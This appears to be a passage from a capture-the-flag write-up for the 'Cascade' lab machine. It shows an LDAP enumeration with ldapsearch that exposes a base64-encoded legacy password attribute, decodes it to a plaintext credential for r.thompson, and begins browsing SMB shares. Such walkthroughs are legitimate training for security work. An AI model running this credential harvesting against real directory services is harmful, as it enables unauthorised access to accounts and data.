 Make a list.

```shell
$ cat users | awk -F[][] '{print $2}' | sponge users
```

Searching users with `ldapsearch`, we get the password for `r.thompson`.

```shell
$ ldapsearch -x -H ldap://10.10.10.182 -D "cascade\\" -W -b "DC=cascade,DC=local" "(objectClass=user)"

Enter LDAP Password: 
# extended LDIF
#
# LDAPv3
# base <DC=cascade,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
...
cascadeLegacyPwd: clk0bjVldmE=
```

Decode it.

```shell
$ echo 'clk0bjVldmE=' | base64 -d                                    
rY4n5eva
```

`r.thompson:rY4n5eva`

We can read some shares.

![](../assets/Pasted%20image%2020250510130830.png)

In `data` there are multiple interesting files.
